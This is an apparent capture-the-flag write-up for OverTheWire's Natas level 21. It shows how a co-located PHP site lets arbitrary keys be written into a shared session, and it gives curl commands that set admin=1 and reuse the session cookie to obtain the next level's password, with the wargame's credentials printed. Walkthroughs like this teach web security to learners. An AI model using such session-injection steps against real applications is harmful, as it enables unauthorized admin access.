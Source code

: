 # Natas Level 21
```bash
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
URL:      http://natas21.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21.png" />
    <div align="center">Natas 21</div>
</figure>

And the [source code](http://natas21.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21-view-sourcecode.png" />
    <div align="center">Natas 21 - View sourcecode</div>
</figure>

Again, we need admin=1 in the session data

```bash
Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
```

Checking the co-located site:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21-colocated-website.png" />
    <div align="center">Natas 21 - Co-located site</div>
</figure>

And its [source code](http://natas21-experimenter.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21-colocated-website-view-sourcecode.png" />
    <div align="center">Natas 21 - Co-located site - View sourcecode</div>
</figure>

Both site are co-located so they share session IDs.
```php
$form .= '<form action="index.php" method="POST">'; 
foreach($validkeys as $key => $defval) { 
    $val = $defval; 
    if(array_key_exists($key, $_SESSION)) { 
        $val = $_SESSION[$key]; 
    } else { 
        $_SESSION[$key] = $val; 
    } 
    $form .= "$key: <input name='$key' value='$val' /><br>"; 
}
```

We can see the session data being saved from the POST parameters.

We just need to submit another key/value (admin=1), lets use cURL:
```bash
curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ --cookie-jar - -L 'http://natas21-experimenter.natas.labs.overthewire.org?submit&debug&admin=1'
```

We get:
```bash
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
[submit] => 
[debug] => 
[admin] => 1
)

<p>Example:</p>
<div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
<p>Change example values here:</p>
<form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
# Netscape HTTP Cookie File
# http://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_natas21-experimenter.natas.labs.overthewire.org FALSE / FALSE 0 PHPSESSID hkrbr62hu6choo542bi5ufq2v2
```

And using the cookie(PHPSESSID=hkrbr62hu6choo542bi5ufq2v2):
```bash
curl -b PHPSESSID=hkrbr62hu6choo542bi5ufq2v2 -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ 'http://natas21.natas.labs.overthewire.org/index.php'
```

We get:
```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "IFekPyrQXftziDEsUr3x21sYuahypdgJ" };</script></head>
<body>
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We got the password for the next level: **chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ**